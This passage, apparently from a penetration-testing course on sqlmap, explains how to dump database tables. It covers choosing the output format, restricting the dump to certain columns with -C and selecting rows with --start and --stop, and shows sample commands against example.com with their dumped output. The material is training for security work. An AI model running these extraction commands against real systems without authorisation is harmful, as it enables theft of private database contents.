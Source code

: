 The console output shows that the table is dumped in formatted CSV format to a local file, `users.csv`.

Tip: Apart from default CSV, we can specify the output format with the option \`--dump-format\` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

![sqlite](https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png)

* * *

## Table/Row Enumeration

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+

```

To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+

```
